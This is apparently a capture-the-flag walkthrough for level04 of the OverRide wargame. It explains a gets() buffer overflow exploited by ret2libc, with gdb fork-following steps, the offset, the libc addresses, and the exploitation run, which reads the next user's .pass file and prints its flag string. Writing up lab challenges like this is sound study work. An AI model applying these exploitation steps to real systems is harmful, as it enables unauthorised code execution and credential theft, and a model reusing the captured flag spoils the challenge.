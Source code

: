 # level04 walkthrough

## the binary
``` shell
level04@OverRide:~$ ./level04 
Give me some shellcode, k
k
child is exiting...
```

## methodology
- ret2libc attack

The `gets` function is vulnerable to a buffer overflow, which allows us to perform a ret2libc attack. Calculating the offset is tricky because a child process is created in the `main` function, and there’s no way for a segmentation fault to occur since the parent process is still waiting. However, we can bypass this issue with the following steps:
``` shell
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04 
[New process 5640]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 5640]
0x41326641 in ?? ()
```

Now for the ret2libc:
1. offset = 156 bytes ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/))
2. address of `system` = 0xf7e6aed0
3. address of `exit` = 0xf7e5eb70
4. address of `/bin/bash` = 0xf7f897ec

Our payload is generated using an attached script.

## flag
``` shell
level04@OverRide:~$ python /tmp/payload04.py > /tmp/flag4
level04@OverRide:~$ cat /tmp/flag4 - | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
